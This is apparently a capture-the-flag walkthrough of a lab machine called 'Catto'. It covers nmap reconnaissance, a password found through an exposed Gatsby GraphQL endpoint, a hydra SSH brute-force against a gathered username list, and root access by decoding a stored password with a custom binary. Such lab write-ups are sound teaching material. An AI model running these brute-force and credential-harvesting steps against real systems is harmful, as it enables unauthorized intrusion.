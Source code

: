 # Catto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:03 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2500/tcp  filtered rtsserv
4907/tcp  filtered unknown
8080/tcp  open     http-proxy
18080/tcp open     unknown
30330/tcp open     unknown
36123/tcp open     unknown
38439/tcp open     unknown
42022/tcp open     unknown
42086/tcp filtered unknown
50400/tcp open     unknown
56339/tcp filtered unknown
```

Lots of ports open. Did a detailed scan as well:

```
$ sudo nmap -p 8080,18080,30330,36123,38439,42022,50400 -sC -sV --min-rate 3000 192.168.183.139
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:05 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Identity by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
18080/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
30330/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
36123/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
38439/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
42022/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc2151f2c62aadd6ca0704de705ffa13 (RSA)
|   256 05e490d2002b9d14e39f4468d28ebcdc (ECDSA)
|_  256 ca804973f0c805aebd2b42371d13e071 (ED25519)
50400/tcp open  http    Node.js Express framework
|_http-title: Error
|_http-cors: HEAD GET POST PUT DELETE PATCH
```

### Web Enum -> GraphQL&#x20;

Port 8080 shows a portfolio page:

<figure><img src="../../../.gitbook/assets/image (1761).png" alt=""><figcaption></figcaption></figure>

It was rather static, so I moved to port 30330. This page had some book reviews:

<figure><img src="../../../.gitbook/assets/image (3843).png" alt=""><figcaption></figcaption></figure>

This page looked more dynamic, so I ran a directory scan with `feroxbuster`, which found nothing of interest. Since we couldn't find anything with wordlists, I took a look through the local files:

There were a few interesting folders:

<figure><img src="../../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the folders. On the 'Using Typescript' page, there was a link to documentation:

<figure><img src="../../../.gitbook/assets/image (1525).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.gatsbyjs.com/docs/how-to/custom-configuration/typescript/" %}

On the documentation page, there was mention of GraphQL being used, and sure enough `/__graphql` was a valid directory on the website as per the documentation:

<figure><img src="../../../.gitbook/assets/image (3582).png" alt=""><figcaption></figcaption></figure>

The left had some queries already valid, so I checked those out. Using the `allSitePage` reveals all directories, including a hidden one:

<figure><img src="../../../.gitbook/assets/image (901).png" alt=""><figcaption></figcaption></figure>

Visiting it reveals a password:

<figure><img src="../../../.gitbook/assets/image (1768).png" alt=""><figcaption></figcaption></figure>

This was a password to a Minecraft server. We didn't have a user, but the Minecraft page had some that we could try:

{% code overflow="wrap" %}
```
Minecraft: The Island by Max Brooks, #1 New York Times bestselling author of World War Z, is the first official Minecraft novel. In the tradition of iconic stories like Robinson Crusoe and Treasure Island, Minecraft: The Island will tell the story of a new hero stranded in the world of Minecraft, who must survive the harsh, unfamiliar environment and unravel the secrets of the island.

We loved this book so much that created a server. Already invited and added keralis, xisuma, zombiecleo, mumbojumbo, and waiting for a reply on the entire hermicraft clan. There is a limit on the server, but at least sabel, yvette, zahara, sybilla, marcus, tabbatha and tabby are already online and building.

Good luck everybody!
```
{% endcode %}

We can gather all the usernames into one wordlist:

```
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
keralis
xisuma
zombiecleo
mumbojumbo
```

I used `hydra` to brute force the creds:

```
$ hydra -L users -p WallAskCharacter305 192.168.183.139 ssh -s 42022
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-12 15:20:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking ssh://192.168.183.139:42022/
[42022][ssh] host: 192.168.183.139   login: marcus   password: WallAskCharacter305
```

We can then `ssh` in as `marcus`:

<figure><img src="../../../.gitbook/assets/image (1770).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### .bash -> Base64key Root Creds

There was a weird folder `.bash` within the user's home directory:

```
[marcus@catto ~]$ ls -la
total 20
drwx------  5 marcus marcus 167 Nov 25  2020 .
drwxr-xr-x. 3 root   root    20 Nov 25  2020 ..
-rw-r--r--  1 root   root    29 Nov 25  2020 .bash
-rw-------  1 marcus marcus   0 Apr 14  2021 .bash_history
-rw-r--r--  1 marcus marcus  18 Nov  8  2019 .bash_logout
-rw-r--r--  1 marcus marcus 141 Nov  8  2019 .bash_profile
-rw-r--r--  1 marcus marcus 312 Nov  8  2019 .bashrc
drwx------  4 marcus marcus  39 Nov 25  2020 .config
drwxr-xr-x  6 marcus marcus 328 Nov 25  2020 gatsby-blog-starter
-rw-------  1 marcus marcus  33 Jul 12 06:59 local.txt
drwxrwxr-x  4 marcus marcus  69 Nov 25  2020 .npm

[marcus@catto ~]$ cat .bash
F2jJDWaNin8pdk93RLzkdOTr60==
```

This string looked like `base64` but it wasn't. I looked at other binaries with `base` as part of their name:

```
[marcus@catto ~]$ base
base32     base64     base64key  basename
```

`base64key` required a private key to decrypt, so I just tried the user's password and it worked:

```
[marcus@catto ~]$ base64key
Usage: ./a.out message key (0:encrypt|1:decrypt)
./a.out "Hello world" MYPRIVATEKEY 0
./a.out ttz9JqxZHBClNtu= MYPRIVATEKEY 1
[marcus@catto ~]$ base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
SortMentionLeast269
```

We can then `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (2591).png" alt=""><figcaption></figcaption></figure>

